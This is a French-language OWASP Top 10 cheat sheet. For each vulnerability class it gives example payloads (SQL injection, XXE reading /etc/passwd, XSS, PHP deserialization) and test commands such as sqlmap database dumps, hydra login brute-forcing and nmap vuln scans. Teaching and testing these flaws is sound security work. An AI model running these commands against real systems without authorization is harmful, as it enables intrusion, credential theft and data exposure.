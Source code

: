 L'[OWASP Top 10](https://owasp.org/www-project-top-ten/) est une classification des vulnérabilités de sécurité les plus critiques dans les applications web. Voici une liste complète avec des exemples d'attaques, des outils de test, et des commandes pour chaque type de vulnérabilité.

## 1. Injection SQL (SQLi)

L'injection SQL permet d'exécuter des requêtes arbitraires sur une base de données.

**Exemple d'attaque :**

```sql
' OR '1'='1' --
```

**Outils de test :**

```bash
sqlmap -u "http://site.com/login.php?id=1" --dump
```

- Dump complet de la base de données.
    

```bash
sqlmap -u "http://site.com/login.php?id=1" --dbs
```

- Liste des bases de données.
    

## 2. Authentification Brisée

Mauvaise gestion des sessions et mots de passe permettant l'usurpation d'identité.

**Exemple d'attaque :**

- Utilisation de mots de passe faibles.
    
- Vol de session via un cookie non protégé.
    

**Outils de test :**

```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt http-post-form "/login.php:username=^USER^&password=^PASS^:F=Incorrect"
```

- Brute force sur formulaire de connexion.
    

```bash
jwt-tool "<token>" -C
```

- Manipulation de tokens JWT.
    

## 3. Exposition de Données Sensibles

Données personnelles ou mots de passe stockés sans chiffrement.

**Test avec Curl :**

```bash
curl -X GET "http://site.com/api/userinfo" -H "Authorization: Bearer <token>"
```

## 4. Attaque XXE (XML External Entities)

L'exploitation d'une mauvaise configuration XML pour accéder à des fichiers.

**Exemple de payload :**

```html
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///etc/passwd">]>
<user>&xxe;</user>
```

**Outils de test :**

```bash
curl -X POST -d "<?xml version='1.0'?><!DOCTYPE foo [<!ENTITY xxe SYSTEM 'file:///etc/passwd'>]><user>&xxe;</user>" http://site.com/vulnerable
```

## 5. Contrôle d'Accès Brisé

Accès non autorisé à des ressources restreintes.

**Test avec Curl :**

```bash
curl -X GET "http://site.com/admin" -b "sessionid=xyz"
```

## 6. Mauvaise Configuration de Sécurité

Mauvaise gestion des permissions, services exposés inutilement.

**Scan avec Nmap :**

```bash
nmap -A -p- --script=vuln site.com
```

- Scan complet pour détecter les services vulnérables.
    

## 7. Cross-Site Scripting (XSS)

Injection de scripts malveillants dans des pages web.

**Exemple de payload :**

```html
<script>alert('XSS')</script>
```

**Outils de test :**

- Burp Suite : Modification des requêtes HTTP pour tester l'injection.
    
- XSS Hunter : Outil avancé pour détecter les vulnérabilités XSS.
    

## 8. Désérialisation Insecure

Exploitation d'objets sérialisés pour exécuter du code malveillant.

**Exemple d'attaque PHP :**

```php
O:4:"Test":1:{s:4:"data";s:12:"Malicious Code";}
```

**Outils de test :**

```bash
ysoSerial <payload>
```

- Génération de payloads désérialisés pour Java.
    

## 9. Utilisation de Composants Vulnérables

Dépendances logicielles obsolètes et exploitables.

**Scan de vulnérabilités :**

```bash
nmap --script http-vuln* -p 80 site.com
```

**Outils additionnels :**

- Dependency-Check : Scanner des dépendances pour détecter les vulnérabilités connues.
    
- Retire.js : Détection de librairies JavaScript vulnérables.
    

## 10. Surveillance et Journalisation Insuffisantes

Absence de logs permettant la détection d'attaques.

**Outils de monitoring :**

- Wazuh (SIEM Open Source)
    
- Splunk
    
- ELK Stack (Elasticsearch, Logstash, Kibana)
    

**Exemple de configuration Elasticsearch :**

```bash
curl -XGET 'localhost:9200/_cat/indices?v&pretty'
```
